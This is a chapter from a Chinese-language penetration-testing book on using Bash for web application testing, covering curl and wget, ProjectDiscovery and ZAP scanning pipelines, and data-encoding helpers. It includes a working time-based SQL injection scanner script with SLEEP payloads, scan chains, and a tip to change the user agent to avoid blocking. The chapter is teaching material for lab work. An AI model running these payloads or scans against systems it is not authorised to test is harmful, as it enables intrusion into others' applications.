





# 9

# 使用 Bash 进行 Web 应用程序渗透测试

本章探讨如何使用 Bash 进行 Web 应用程序渗透测试。我们将了解 Bash 的灵活性如何帮助你发现漏洞、自动化任务、分析响应并管理 Web 数据。通过本章的学习，你将能够使用 Bash 发现和利用常见的 Web 漏洞，高效提取数据，并与其他渗透测试工具集成进行全面的 Web 评估。

一般来说，进行 Web 应用程序安全测试有五个使用场景：

+   深入测试单个 Web 应用程序

+   在网络渗透测试期间，快速测试（自动化扫描）多个 Web 应用程序

+   创建脚本进行漏洞模糊测试

+   创建**概念验证**（**PoC**）漏洞利用

+   **持续集成和持续交付/部署**（**CI/CD**）测试

本章重点讨论第二、第三和第四种使用场景。如果我要测试第一个使用场景，我会更倾向于使用浏览器代理工具，如**ZED 攻击代理**（[`www.zaproxy.org`](https://www.zaproxy.org)），也称为**ZAP**，或 Burp Suite（[`portswigger.net/burp`](https://portswigger.net/burp)）。这些工具可以让测试人员深入探索应用程序。对于 ZAP，它允许你在 Bash 终端中运行工具，而不显示**图形用户界面**（**GUI**），以自动化扫描。我将在本章稍后展示如何在终端中使用 ZAP。

本章将涵盖以下主要内容：

+   在 Bash 中自动化 HTTP 请求

+   使用 Bash 分析 Web 应用程序安全

+   学习高级数据处理技术

# 技术要求

第一个前提是你从*第一章*开始阅读，并且能访问到 Bash shell。你应该使用 Kali Linux，正如*第一章*中所讨论的那样。如果你使用其他操作系统，跟随本书内容会比较困难。

在继续之前，请确保已安装**ProjectDiscovery**工具：[`github.com/PacktPublishing/Bash-Shell-Scripting-for-Pentesters/tree/main/Chapter01#install-project-discovery-tools`](https://github.com/PacktPublishing/Bash-Shell-Scripting-for-Pentesters/tree/main/Chapter01#install-project-discovery-tools)

运行以下命令以配置软件前提条件：

```
 $ sudo apt update && sudo apt install -y zaproxy curl wget parallel chromium
$ sudo apt remove python3-httpx
```

必须移除**httpx**条目，因为该命令名称与 ProjectDiscovery 的**httpx**命令发生冲突。

本章的代码可以在[`github.com/PacktPublishing/Bash-Shell-Scripting-for-Pentesters/tree/main/Chapter09`](https://github.com/PacktPublishing/Bash-Shell-Scripting-for-Pentesters/tree/main/Chapter09)找到。

如果你想要跟随本节内容，互动演示如何使用**curl**来自动化测试**SQL 注入**（**SQLi**），你需要安装**Damn Vulnerable Web Application**（**DVWA**），可以在[`github.com/digininja/DVWA`](https://github.com/digininja/DVWA)找到。我将在 Docker 中运行 DVWA，这是启动应用程序的最快方式。在演示**nuclei**扫描时，我还将使用 Vulhub（[`github.com/vulhub/vulhub`](https://github.com/vulhub/vulhub)）。

# 在 Bash 中自动化 HTTP 请求

任何关于在终端中进行 HTTP 请求的严肃讨论都必须从**curl**开始。**curl**工具是一个命令行工具，用于使用各种协议（如 HTTP、HTTPS、FTP 等）向服务器发送或从服务器接收数据。它在渗透测试中广泛使用，用来与 Web 应用程序交互，发送自定义请求以发现漏洞。你可以访问**curl**的官方网站，了解更多信息：[`curl.se`](https://curl.se)。

我相信大多数渗透测试人员更倾向于使用像 ZAP 或 Burp 这样的浏览器代理，或者使用 Python 脚本进行 Web 应用程序测试。然而，了解如何在 Bash shell 中使用**curl**也非常有用。在我写这章的时候，有位我合作过的人联系我，求我帮忙在 Bash 中重现一个 Metasploit HTTP 漏洞模块，因为他们无法在测试环境中安装 Metasploit 或任何 Python 模块。测试环境中虽然没有这些，但却安装了 Bash 和常见的命令行工具，比如**curl**。

这里是一些常用的**curl**选项，渗透测试人员会觉得很有用：

+   **-X**或**--request**：指定请求方法（**GET**、**POST**、**PUT**、**DELETE**等）

+   **-d**或**--data**：使用**POST**请求发送数据

+   **-H**或**--header**：向服务器传递自定义头部

+   **-I**或**--head**：只显示响应头信息

+   **-u**或**--user**：包括用户身份验证

+   **-o**或**--output**：将输出写入文件

+   **-s**或**--silent**：静默模式（不显示进度条或错误消息）

+   **-k**或**--insecure**：在使用 SSL 时允许不安全的服务器连接

+   **-L**或**--location**：跟踪重定向

+   **-w**或**--write-out <format>**：使**curl**在传输完成后显示信息到**stdout**

    格式是一个字符串，可以包含纯文本与任意数量的变量。

+   **-Z**或**--parallel**：使**curl**以并行方式进行传输，而不是常规的串行方式

在本节中，我们将涵盖上述选项的使用示例。

**GET**和**POST**请求是最常见的 HTTP 请求方法。还有很多其他方法。要了解更多，请参见[`developer.mozilla.org/en-US/docs/Web/HTTP/Methods`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods)。

**GET**请求用于从服务器检索信息。以下是如何使用**curl**发出**GET**请求：**curl -X** **GET** [`example.com`](https://example.com) 。

这是该命令的解释：

+   **curl** ：调用**curl**命令

+   **-X GET** ：指定请求方法为**GET**

+   **https://example.com** ：目标服务器的 URL

**POST**请求用于将数据发送到服务器的请求体中。下面是一个示例：**curl -X POST https://example.com/login -** **d "username=user&password=pass"** 。

以下几点解释了该命令：

+   **-X POST** ：指定请求方法为**POST**

+   **-d "username=user&password=pass"** ：随请求一起发送数据

**GET**请求和**POST**请求之间的关键区别是数据发送到服务器的方式。**GET**请求将数据作为参数发送到 URL。一个原始的**GET**请求如下所示：


图 9.1 – 一个示例的 GET 请求

在之前的图中，关键部分是第一行，它以**GET**方法开始，后面跟着相对 URL（**/admin/report?year=2024&month=7**）和 HTTP 规范（**HTTP/2**）。如图所示，数据作为**year**和**month**参数发送到服务器。

**POST**请求方法将数据发送到请求的主体中。一个原始的**POST**请求看起来类似于以下图所示：



图 9.2 – 一个示例的 POST 请求

在之前的图中，关键点是数据是在请求体中发送到服务器的（最后一行），这在头信息之后（**关键词：** **值**对）进行。

许多 Web 应用程序需要身份验证头。以下是如何将其包含在请求中：**curl -X GET https://example.com/protected -H "Authorization:** **Bearer <token>"** 。

你可以使用**--data-binary**选项从文件中发送数据：**curl -X POST https://example.com/upload --** **data-binary @file.txt** 。

通常，渗透测试人员需要组合多个选项来构建特定的请求。以下是一个高级示例：**curl -X POST https://example.com/api -H "Authorization: Bearer <token>" -H "Content-Type: application/json" -** **d @data.json** 。

以下几点解释了之前的命令：

+   **-H "Content-Type: application/json"** ：指定所发送数据的内容类型

+   **-d @data.json** ：将**data.json**的内容随请求一起发送

处理 HTTP 响应对于分析 Web 应用程序的行为至关重要：

```
 #!/usr/bin/env bash
response=$(curl -s -o /dev/null -w "%{http_code}" https://example.com)
if [ "$response" -eq 200 ]; then
  echo "Request was successful." else
  echo "Request failed with response code $response." fi
```

让我们更仔细地看一下代码：

+   **response=$(...)** ：它将 HTTP 响应码捕获到一个变量中。

+   **-s -o /dev/null -w "%{http_code}"** ：静默模式，丢弃输出，仅打印 HTTP 响应码。有关**-w**选项及其使用的更多信息，请参见[`curl.se/docs/manpage.html#-w`](https://curl.se/docs/manpage.html#-w)。

+   **if** 块分析响应码。如果响应码是 **200** ，则表示请求成功。

渗透测试人员经常需要自动化多个请求。以下是使用循环的示例：

```
 for i in {1..10}; do
  curl -X GET "https://example.com/page$i" -H "Authorization: Bearer <token>"
done
```

让我们分解代码并理解它：

+   **for i in {1..10}** ：从 1 循环到 10

+   **"https://example.com/page$i"** ：动态构造每次迭代的页面编号的 URL

有时，你只想检查 HTTP 响应头并丢弃其余部分：**curl -** **I "https://www.example.com/**

这里是一个示例：


图 9.3 – 捕获 HTTP 请求的头部

提示

如果在 Bash shell 中创建 HTTP 请求时遇到错误，可以通过代理发送请求或保存数据包捕获以帮助故障排除。这将帮助你查看发送和接收的数据，可能由于编码问题，看起来与预期不同。

现在你已经掌握了使用 **curl** 进行 HTTP 请求的基本知识，让我们开始实际应用这些知识，看看一个真实世界的案例。接下来的示例将展示如何使用 Bash 脚本进行 SQL 注入有效负载的测试。示例代码可以在 GitHub 仓库中本章文件夹下的 **ch09_sqliscanner.sh** 文件中找到。和之前的章节一样，我会将脚本分成几个部分进行讲解，这样你可以更好地理解代码。你可以考虑在另一屏幕上打开 GitHub 上的代码，或者使用分屏模式，以便在我们逐行讲解每段代码时，能更好地理解脚本结构。

以下代码是一个检查 **curl** 和 **parallel** 依赖项是否安装的函数。如果没有安装，则打印错误消息并退出：

```
 #!/usr/bin/env bash
check_dependencies() {
    for cmd in curl parallel; do
        if ! command -v $cmd &> /dev/null; then
            echo "$cmd could not be found. Please install it."             exit 1
        fi
    done
}
```

**print_usage** 函数包含脚本的使用说明：

```
 print_usage() {
    echo "Usage: $0 -u URL -c COOKIE_HEADER"
    echo "       $0 -f URL_FILE -c COOKIE_HEADER"
    echo "URL must contain 'FUZZ' where payloads should be inserted." }
```

在脚本的另一部分，如果没有提供正确的命令行参数，它会调用此函数，并打印使用说明。

**perform_sql_test** 函数设置了两个局部变量并将它们初始化为传递的两个函数参数：

```
 perform_sqli_test() {
    local url=$1
    local cookie_header=$2
```

在以下代码中，我们确保 URL 包含 **FUZZ** 以便插入有效负载；否则，打印错误信息并退出：

```
 if [[ $url != *"FUZZ"* ]]; then
        echo "Error: URL must contain 'FUZZ' where payloads should be inserted."         print_usage
        exit 1
    fi
```

这里我们定义一个 SQL 注入有效负载的数组：

```
 local payloads=(
        "(SELECT(0)FROM(SELECT(SLEEP(7)))a)"
        "'XOR(SELECT(0)FROM(SELECT(SLEEP(7)))a)XOR'Z"
        "' AND (SELECT 4800 FROM (SELECT(SLEEP(7)))HoBG)--"
        "if(now()=sysdate(),SLEEP(7),0)"
        "'XOR(if(now()=sysdate(),SLEEP(7),0))XOR'Z"
        "'XOR(SELECT CASE WHEN(1234=1234) THEN SLEEP(7) ELSE 0 END)XOR'Z"
    )
```

在以下代码中，我们循环遍历有效负载数组：

```
 for payload in "${payloads[@]}"; do
        start_time=$(date +%s)
```

起始时间被保存到 **start_time** 变量，以便在循环结束时参考。

**fuzzed_url** 变量被赋值为 **${url//FUZZ/$payload}** 参数展开的结果：

```
 fuzzed_url=${url//FUZZ/$payload}
```

这是 Bash 中用于字符串操作的参数展开语法。它告诉 Bash 将 **url** 变量中所有出现的 **FUZZ** 字符串替换为当前的 **$payload** 值。

这里我们根据命令行参数，决定是否带有 Cookie 头部发送请求到模糊化的 URL：

```
 if [ -n "$cookie_header" ]; then
            curl -s -o /dev/null --max-time 20 -H "Cookie: $cookie_header" "$fuzzed_url"
        else
            curl -s -o /dev/null --max-time 20 "$fuzzed_url"
        fi
```

以下代码计算请求的持续时间：

```
 end_time=$(date +%s)
        duration=$((end_time - start_time))
```

以下代码检查请求时长是否表明存在潜在的基于时间的 SQL 注入漏洞：

```
 if ((duration >= 7 && duration <= 16)); then
            echo "Potential time-based SQL injection vulnerability detected on $url with payload: $payload"
            break
        fi
    done
}
export -f perform_sqli_test
```

每个有效负载中都包含了 7 秒的值。根据网络条件和服务器负载，我们预计响应时间至少需要 7 秒或更长时间。我们将函数导出，以便在 shell 中调用。

在这里，我们通过从文件中读取或使用单个 URL 来处理 URL 列表：

```
 process_urls() {
    local url_list=$1
    local cookie_header=$2
    if [ -f "$url_list" ]; then
        cat "$url_list" | parallel perform_sqli_test {} "$cookie_header"
    else
        perform_sqli_test "$url_list" "$cookie_header"
    fi
}
```

接下来，我们调用在脚本开头定义的**check_dependencies**函数：

```
 check_dependencies
```

以下代码解析命令行参数中的 URL、URL 文件和 cookie 头：

```
 while getopts "u:f:c:" opt; do
    case $opt in
        u) URL=$OPTARG ;;
        f) URL_FILE=$OPTARG ;;
        c) COOKIE_HEADER=$OPTARG ;;
        *) echo "Invalid option: -$OPTARG" ;;
    esac
done
```

在这里，我们验证输入并确保提供了 URL 或 URL 文件：

```
 if [ -z "$URL" ] && [ -z "$URL_FILE" ]; then
    echo "You must provide a URL with -u or a file containing URLs with -f."     print_usage
    exit 1
fi
```

接下来，我们根据提供的输入处理这些 URL：

```
 if [ -n "$URL" ]; then
    process_urls "$URL" "$COOKIE_HEADER"
elif [ -n "$URL_FILE" ]; then
    process_urls "$URL_FILE" "$COOKIE_HEADER"
fi
```

当一个有效负载的响应时间超过 7 秒时，终端中会显示以下输出，打印触发 SQLi 的 URL 和有效负载：


图 9.4 – 成功的 SQLi URL 和有效负载被打印到终端

提示

当在**curl**请求中包含身份验证 cookie 或令牌时，请注意**-b**和**-H**选项之间的区别。如果使用**-b**，**curl**会在请求中插入**Cookie:**，后面跟上你指定的 cookie 值。如果使用**-H**，则需要提供完整的值。参见*图 9.4*中的**-b**参数，我在其中省略了**Cookie**头的开头，并与*图 9.5*进行比较。



图 9.5 – Cookie 头被高亮显示以强调重点

在了解**curl**之后，我想简单提一下**wget**。**curl**和**wget**都是用于从互联网下载文件的命令行工具，但它们有不同的功能和应用场景。

以下是**curl**的特点：

+   设计用于使用 URL 语法传输数据

+   支持广泛的协议（HTTP、HTTPS、FTP、SFTP、SCP 等）

+   可以使用各种 HTTP 方法（**GET**、**POST**、**PUT**、**DELETE**等）向服务器发送数据

+   支持上传文件

+   更适合进行与 API 交互等复杂操作

以下是**wget**的特点：

+   主要用于从网页下载文件

+   支持 HTTP、HTTPS 和 FTP 协议

+   可以递归下载文件，这使得它适用于网站镜像

+   设计用于通过重试下载来处理不可靠的网络连接

+   更适合批量下载和网站镜像

**wget**的最直接用法是从 URL 下载单个文件：

```
 $ wget http://example.com/file.zip
```

你可以使用**-O**选项指定下载文件的不同名称：

```
 $ wget -O newname.zip http://example.com/file.zip
```

如果下载被中断，你可以使用**-c**选项继续下载：

```
 $ wget -c http://example.com/file.zip
```

你可以使用**-b**选项在后台下载文件：

```
 $ wget -b http://example.com/file.zip
```

你可以使用**-r**（递归）和**-p**（页面所需）选项来镜像一个网站。**-k**选项会将链接转换为适合本地查看的形式：

```
 $ wget -r -p -k http://example.com/
```

你可以使用 **--** **limit-rate** 选项限制下载速度：

```
 $ wget --limit-rate=100k http://example.com/file.zip
```

你可以使用 **-** **A** 选项下载具有特定文件扩展名的文件：

```
 $ wget -r -A pdf http://example.com/
```

在本节中，你学习了最常用的 **curl** 和 **wget** 选项，并检查了它们的常见用法。在 Bash 脚本中使用 **curl** 和 **wget** 允许渗透测试人员高效地与 Web 应用交互，发送定制的请求以识别和利用漏洞。掌握这些选项和技巧是有效进行 Web 应用渗透测试的关键。

下一部分将展示如何使用更高级的网页应用渗透测试工具，你可以在 Bash shell 中使用这些工具，例如各种 ProjectDiscovery 工具，以及运行命令行 ZAP 扫描。

# 使用 Bash 分析 Web 应用安全性

本节将介绍你应该在工具箱中拥有的用于 Web 应用安全测试的常见命令行工具。

## ProjectDiscovery

ProjectDiscovery 维护着一系列可以在 Bash shell 中运行的命令行工具。这些工具旨在通过 shell 管道接受输入并传递输出，允许你将多个工具串联在一起。它们最受欢迎的工具包括以下内容：

+   **nuclei**：一个开源漏洞扫描器，使用 YAML 模板

+   **nuclei-templates**：用于 **nuclei** 引擎查找安全漏洞的模板

+   **subfinder**：一个被动子域枚举工具

+   **httpx**：一个 HTTP 工具包，允许发送探针以识别 HTTP 服务

+   **cvemap**：一个用于搜索 CVE 的命令行工具

+   **katana**：一个网页爬虫和蜘蛛框架

+   **naabu**：一个易于与其他 ProjectDiscovery 工具集成的端口扫描器

+   **mapcidr**：一个实用程序，用于对给定子网/CIDR 范围执行多个操作

你可以在 [`github.com/projectdiscovery`](https://github.com/projectdiscovery) 找到 ProjectDiscovery 工具。

一个结合这些工具的示例工作流程会从 **mapcidr** 开始，将网络地址扩展为单个 IP 地址，管道传输到 **naabu** 扫描开放端口，再传输到 **httpx** 发现 Web 服务，最后传输到 **nuclei** 检测已知漏洞。

让我们分别检查这些工具中的一些，然后再实验它们如何在链中一起使用。

**mapcidr** 工具通过 **stdin** 接受输入。以下是一个示例用法：

```
 $ echo 10.2.10.0/24 | mapcidr -silent
```

示例输出如下面的图所示：



图 9.6 – mapcidr 使用示例

在前面的图中，我使用 Bash shell 的管道（**|**）操作符将网络地址传递给 **mapcidr** 工具的输入。输出包含将网络地址扩展为单个 IP 地址。

提示

默认情况下，所有 ProjectDiscovery 工具都会输出横幅。由于我们将每个工具的输出传递给下一个工具的输入，这是不希望的行为。使用 **-silent** 选项来抑制横幅。

**naabu**工具是 ProjectDiscovery 工具，用于扫描开放端口。您可以包括命令行选项，在每个开放端口之后执行**nmap**扫描，此外还包括许多其他选项。**naabu**的优势在于它能够适配命令管道，将一个 ProjectDiscovery 工具的**stdout**输出传递给下一个工具的**stdin**输入。在默认配置下，**naabu**扫描的端口数量有限。不过，命令行选项包括指定端口列表或范围的功能：


图 9.7 – 执行的 naabu 端口扫描示例

ProjectDiscovery 的**httpx**工具探测开放端口上的监听 HTTP 服务器：


图 9.8 – 执行的 httpx 扫描示例

在前面的图中，我使用 Bash shell 管道（**|**）操作符将 IP 地址**10.2.10.1**传送到**naabu**的**stdin**输入。我加入了静默选项（**-silent**）以抑制横幅输出，后面接着一个端口列表（**-p**）。输出通过**-silent**选项传送到**httpx**工具。**https**的输出是一组 HTTP URL。

ProjectDiscovery 的**nuclei**工具用于扫描已知漏洞和配置错误。**nuclei**模板还包括*模糊测试*模板，用于扫描属于常见漏洞类别的未知漏洞，如**跨站脚本**（**XSS**）和 SQL 注入（SQLi）。

下图展示了**nuclei**扫描：


图 9.9 – 执行的 nuclei 扫描示例，通过管道命令

提示

ProjectDiscovery 工具比我展示的功能要强大得多。你确实应该花时间深入探索文档。这些工具是任何渗透测试人员或漏洞赏金猎人的重要工具箱之一。

ProjectDiscovery 的**katana**工具用于爬取或蜘蛛抓取 Web 应用程序，并打印发现的 URL。下图展示了如何使用**katana**工具爬取网站：


图 9.10 – 使用 katana 工具爬取网站

在下图中，我演示了将**katana**爬取输出通过管道（**|**）传输到**nuclei**扫描，并使用模糊测试模板（**-dast**选项）。检测到并在工具输出中显示了 XSS 漏洞：


图 9.11 – Katana 输出通过管道传输到 nuclei 扫描

提示

在运行连接网站的 Bash shell 工具时，始终更改用户代理，如前面图示所示。如果使用默认的用户代理，您很容易被阻止。

当然，你并不限于将 ProjectDiscovery 工具的输出传递给其他 ProjectDiscovery 工具。此命令使用 Bash 管道将**httpx**的输出传递给**dirsearch**来发现内容：

```
 $ echo 10.2.10.1 | naabu -silent -p 4712,5005,5555,8080,8090,8111 | httpx -silent | dirsearch --stdin --full-url -q -o dirsearch.csv --format=csv
```

让我们来看一下这个解释：

+   和之前一样，我回显 IP 地址并将其传递给**naabu**的输入，使用静默选项并提供端口列表

+   **naabu**端口扫描的输出通过管道传递给**httpx**

+   从**httpx**获得的 URL 输出通过管道传递给**dirsearch**进行内容发现

+   **dirsearch**选项接受来自**stdin**（**--stdin**）的输入，输出完整的 URL（**--full-url**），抑制打印任何横幅（**-q**），并将输出（**-o**）保存到 CSV 格式的文件中（**--format=csv**）

我常用的一个**awk**过滤器，用于从 CSV 文件中仅显示 200 或 302 响应，使用逗号作为字段分隔符（**-F','**），并过滤第二个字段以显示 200 或 302 响应，具体如下：

```
 $ awk -F',' '$2 == 200 || $2 == 302 {print $0}' dirsearch.csv
```

ProjectDiscovery 工具非常适合发现已知的漏洞和配置错误。最近的一次更新扩展了**nuclei**的模糊测试功能，能够发现漏洞。然而，对于更全面的 Web 应用漏洞扫描，我建议使用 ZAP。可以把这些工具看作是互为补充的。接下来，我们继续探索 ZAP 扫描。

## 使用 ZAP 进行命令行扫描

ZAP 是一个 Web 应用漏洞扫描器和浏览器代理。

ZAP 的 GUI 组件可以从 GUI 系统菜单或终端使用**zaproxy**命令启动。然而，本节将重点讲解如何运行**/usr/share/zaproxy/zap.sh**命令行扫描器。

在 Bash 终端中输入此命令以检查 ZAP 命令行选项：

```
 $ /usr/share/zaproxy/zap.sh -h
```

我在任何 Web 应用渗透测试开始时都会运行的一个命令是**zapit**。它执行一个快速侦察扫描，输出中列出了 Web 应用程序的重要细节。在运行**zapit**之前，你必须使用以下命令安装**wappalyzer**附加组件：

```
 $ /usr/share/zaproxy/zap.sh -cmd -addoninstall wappalyzer
```

你只需运行一次附加组件安装命令。接下来，运行**zapit**扫描。在这个例子中，我正在扫描我的实验室中的一个应用程序：



图 9.12 – 一个 zapit 扫描指纹识别 Web 应用

提示

你可以在[这里](https://github.com/vulhub/vulhub)找到大量适用于你实验室的易受攻击的 Web 应用程序。

在前面的图中，你可以看到**zapit**扫描显示了**Technology**部分中的应用程序框架以及**Number of alerts**部分中的一些有趣信息。这是任何应用程序渗透测试所需的关键信息。

接下来，让我们运行该应用程序的漏洞扫描。对于输出参数值（**-quickout**），我们使用**$(pwd)**来指定路径，并将报告保存到当前工作目录，因为我们没有权限写入**/usr/share/zaproxy**：

```
 $ /usr/share/zaproxy/zap.sh -cmd -addonupdate -quickurl http://10.2.10.1:5555/ -quickout $(pwd)/zap.json
```

让我们来看一下输出：



图 9.13 – 检查 ZAP 快速扫描输出的 JSON 格式

ZAP 扫描输出可以保存为 HTML、JSON、Markdown 和 XML 格式。对于可读性强的输出，建议使用 HTML 报告。对于依赖于 Bash 脚本解析输出的自动化框架，使用 JSON 或 XML 格式。

本节介绍了在 Bash shell 中使用 ProjectDiscovery 和 ZAP 的常见用例。我们这里只是略微介绍了一下。ProjectDiscovery 工具和 ZAP 中还有许多其他选项，包括使用凭证配置自动化扫描。

下一节将探索使用 Bash 别名和函数来转换与 Web 应用程序渗透测试相关的数据。

# 学习高级数据处理技巧

本节将探索常见的 Web 应用程序安全测试中使用的数据编码、加密和哈希算法。你可以将这些功能放入你的 **.bashrc** 文件中，并在脚本中调用它们。以下函数可以在本章的 GitHub 仓库中找到，文件名为 **ch09_data_functions.sh**。

Base64 编码是一种将二进制数据转换为 ASCII 字符串格式的方法，通过将其编码为 Base64 表示形式。该编码使用一组 64 个字符，包括大写字母和小写字母（**A-Z**，**a-z**）、数字（**0-9**）以及符号 **+** 和 **/** 来表示数据。Base64 编码的主要目的是确保二进制数据（如图像或文件）能够安全地通过设计用于处理文本数据的媒介（如电子邮件和 URL）传输，而不会发生损坏。Base64 编码还使用 **=** 字符进行填充，确保编码后的数据是 4 字节的倍数，从而在传输和存储过程中保持数据完整性。在 Bash 中，Base64 编码非常简单。

这是一个 Base64 编码示例：

```
 $ echo -n hello | base64
aGVsbG8=
```

以下是一个 Base64 解码示例：

```
 $ echo -n aGVsbG8= | base64 -d
hello
```

Base64 编码和 Base64 URL 安全编码是将二进制数据转换为文本字符串的方法，但它们在字符集和预期用途上有所不同。Base64 编码使用一组 64 个字符，包括大写字母和小写字母（A-Z, a-z）、数字（0-9）以及两个特殊字符（**+** 和 **/**）。这种编码通常用于编码需要存储或通过设计用于处理文本数据的媒介传输的数据。然而，**+** 和 **/** 字符在 URL 中不安全，可能会在 URL 或文件名中使用时引发问题。为了解决这个问题，Base64 URL 安全编码通过将 **+** 替换为 **-**（连字符）和 **/** 替换为 **_**（下划线），并通常省略填充字符（**=**），以确保编码后的数据可以安全地包含在 URL 和文件名中，而不会出现误解或错误。

这个函数将数据编码为 URL 安全的 Base64 表示形式：

```
 url_safe_base64_encode() {
  base64 | tr '+/' '-_' | tr -d '='
}
```

这里演示了 URL 安全的 Base64 解码：

```
 url_safe_base64_decode() {
  tr '-_' '+/' | base64 --decode
}
```

**gzip** 数据格式广泛用于 HTTP 通信中，用来压缩在 Web 服务器和客户端之间传输的数据，从而提高数据传输效率。当 Web 服务器向客户端（如 Web 浏览器）发送数据时，可以使用 **gzip** 来压缩内容，显著减少文件大小，从而加快下载速度。压缩后的数据包括带有元数据的头部、压缩内容以及带有 **循环冗余校验 32**（**CRC-32**）校验和的尾部，用于验证数据完整性。支持 **gzip** 的客户端（通过 **Accept-Encoding: gzip** HTTP 头标识）可以使用 **gunzip** 解压收到的内容，以显示或处理原始数据。此压缩方法有助于提高加载时间、减少带宽使用并增强整体 Web 性能。

**gzip** 程序通常在 Linux 系统中默认安装。以下是一些示例，展示了如何在 Bash shell 中压缩和解压数据：


图 9.14 – 压缩和解压数据的演示

**消息摘要算法 5**（**MD5**）哈希是一种广泛使用的加密哈希函数，生成一个 128 位（16 字节）哈希值，通常表示为一个 32 字符的十六进制数字。MD5 接受一个输入（或 *消息*），并返回一个固定大小的字符字符串，该字符串对于输入数据是唯一的。然而，由于 MD5 容易发生哈希碰撞（即两个不同的输入产生相同的哈希输出），它被认为较弱。由于这个原因，MD5 不再推荐用于安全关键的应用，更多安全的算法，如 **安全哈希算法 256 位**（**SHA-256**）被更倾向于用于哈希目的。

以下函数创建一个字符串的 MD5 哈希：

```
 md5_hash() {
  md5sum | awk '{print $1}'
}
```

以下是另一个例子：

```
 $ echo helloworld | md5_hash
d73b04b0e696b0945283defa3eee4538
```

SHA-256 是一种加密哈希函数，它将任何输入数据生成一个固定大小的 256 位（32 字节）哈希值，通常表示为一个 64 字符的十六进制数字。SHA-256 由**国家安全局**（**NSA**）开发，属于 SHA-2 家族的一部分，SHA-256 接受输入并生成唯一的输出，像是数据的数字指纹。它的设计目标是使反向过程或找到两个不同输入生成相同哈希（碰撞）变得计算上不可行。这使得 SHA-256 在验证数据完整性和真实性方面高度安全可靠，因此广泛应用于各种安全应用中，包括 SSL/TLS 证书、数字签名和区块链技术。

该函数打印输入的 SHA-256 哈希：

```
 sha256_hash() {
  sha256sum | awk '{print $1}'
}
```

请参见以下示例：

```
 $ echo helloworld | sha256_hash
8cd07f3a5ff98f2a78cfc366c13fb123eb8d29c1ca37c79df190425d5b9e424d
```

**高级加密标准 256 位密钥**（**AES-256**）是一种广泛用于保护数据的对称加密算法。它通过使用秘密密钥将明文数据转换为密文，从而确保只有拥有相同密钥的人才能解密并访问原始信息。AES-256 中的 *256* 指的是加密密钥的长度，即 256 位，这使得使用暴力破解极为困难。AES-256 以其强大的安全性和高效性而闻名，因此它在保护敏感数据的应用中得到广泛使用，例如安全文件存储、互联网通信和金融交易。

以下是 AES 加密函数：

```
 aes_encrypt() {
  local password="$1"
  openssl enc -aes-256-cbc -base64 -pbkdf2 -pass pass:"$password"
}
```

这个函数必须按如下方式调用：**echo "data to be encrypted" |** **aes_encrypt "password"**。

这是一个 AES 解密函数：

```
 aes_decrypt() {
  local password="$1"
  openssl enc -aes-256-cbc -d -base64 -pbkdf2 -pass pass:"$password"
}
```

**openssl** 命令指定了使用 **Cipher Block Chaining**（**CBC**）模式的 256 位密钥大小的 AES 算法。**-d** 选项表示解密。**-pbkdf2** 选项表示使用 **基于密码的密钥派生函数 2**（**PBKDF2**）算法从密码派生加密密钥。这通过应用计算密集型函数进行迭代，增强了安全性，使暴力破解变得更加困难。

类似于加密函数，解密数据必须通过 **stdin** 管道传入，解密密码必须随之提供：**echo "data to be decrypted" |** **aes_decrypt "password"**。

这里是一个 AES-256 加密和解密的示例：

```
 $ echo "data to be encrypted" | aes_encrypt 'Passw0rd!' | aes_decrypt 'Passw0rd!' data to be encrypted
```

HTML 编码是将 HTML 中的特殊字符转换为其相应字符实体的过程，以确保它们在网页浏览器中正确显示。这是必要的，因为某些字符，如 **<**、**>**、**&** 和 **"**，在 HTML 语法中有特定的含义，如果不正确编码，可能会破坏 HTML 文档的结构。例如，**<** 用于开始一个标签，因此将其编码为 **&lt;** 可以防止它被解释为 HTML 标签的开始。相反，HTML 解码则是将这些字符实体转换回其原始字符。这个过程对于网页安全和功能至关重要，因为它可以防止 HTML 注入攻击，并确保内容在没有意外格式或行为的情况下正确呈现。通过编码特殊字符，开发人员可以安全地将用户生成的内容、代码片段或其他数据包含在 HTML 文档中，而不会危及网页的完整性。

以下 HTML 函数对输入进行编码：

```
 html_encode() {
  local input
  input=$(cat)
  input="${input//\&/\&amp;}"
  input="${input//\</\&lt;}"
  input="${input//\>/\&gt;}"
  input="${input//\"/\&quot;}"
  input="${input//\'/\&apos;}"
  echo "$input"
}
```

提醒

以下字符在作为字符串的一部分时必须进行转义，如 **html_encode** 和 **html_encode** 函数所示：**\**，**$**，**`**，**'**，**"**，**&**，*****，**?**，**(**，**)**，**{**，**}**，**[**，**]**，**|**，**;**，**<**，**>**，**!**，**#**，**~**，**^**。

当字符用于单引号内时，通常不需要对它们进行转义。

这是转义这些字符的示例：

```
 $ echo 'hello<script>world' | html_encode
hello&lt;script&gt;world
```

下面是相应的解码函数：

```
 html_decode() {
  local input
  input=$(cat)
  input="${input//\&apos;/\'}"
  input="${input//\&quot;/\"}"
  input="${input//\&gt;/\>}"
  input="${input//\&lt;/\<}"
  input="${input//\&amp;/\&}"
  echo "$input"
}
```

这里是一个 HTML 解码数据的示例：

```
 $ echo 'hello&lt;script&gt;world' | html_decode
hello<script>world
```

本节展示了如何使用 Bash 转换在 Web 应用程序渗透测试中常见的数据格式。提前将这些函数添加到你的 **.bashrc** 文件中，你将准备好解决渗透测试中最复杂的数据处理任务。

# 总结

你不能总是依赖于在测试环境中安装工具或编程库。Bash 脚本提供了一种方法，利用内置的 shell 和工具几乎可以完成任何任务。回顾我的职业生涯，曾有很多次我觉得在没有安装额外工具的情况下无法完成测试，或者不得不使用其他语言（如 Python）编写工具。这一切源于我对 Bash 脚本的不了解。掌握了这些知识后，你就准备好使用 Bash 应对最复杂的 Web 应用测试挑战。

在下一章中，我们将探讨如何使用 Bash 进行网络和基础设施渗透测试。
